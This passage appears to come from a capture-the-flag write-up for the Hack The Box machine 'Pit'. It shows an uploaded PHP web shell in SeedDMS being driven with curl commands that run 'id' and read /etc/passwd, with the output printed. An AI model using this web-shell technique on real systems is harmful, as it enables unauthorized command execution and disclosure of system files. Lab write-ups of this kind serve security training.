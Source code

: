 ![pit-shell](/assets/images/2021-09-25-17-57-13.png)

Scroll to the bottom and click the button to add the document. Now hover over our uploaded file to see the URL path to it:

```text
http://dms-pit.htb/seeddms51x/seeddms/out/out.ViewDocument.php?documentid=38&showtree=1
```

## Webshell

Our document id is 38, we can now use the example in the exploit to give us the path to our shell. Le'ts test it:

```text
┌──(root💀kali)-[~/htb/pit/snmp]
└─# curl http://dms-pit.htb/seeddms51x/data/1048576/38/1.php?cmd=id             
PHP Backdoor Code:
<pre>uid=992(nginx) gid=988(nginx) groups=988(nginx) context=system_u:system_r:httpd_t:s0
</pre>

┌──(root💀kali)-[~/htb/pit/snmp]
└─# curl http://dms-pit.htb/seeddms51x/data/1048576/38/1.php?cmd=cat+/etc/passwd
PHP Backdoor Code:
<pre>root:x:0:0:root:/root:/bin/bash
<SNIP>
michelle:x:1000:1000::/home/michelle:/bin/bash
</pre>
```
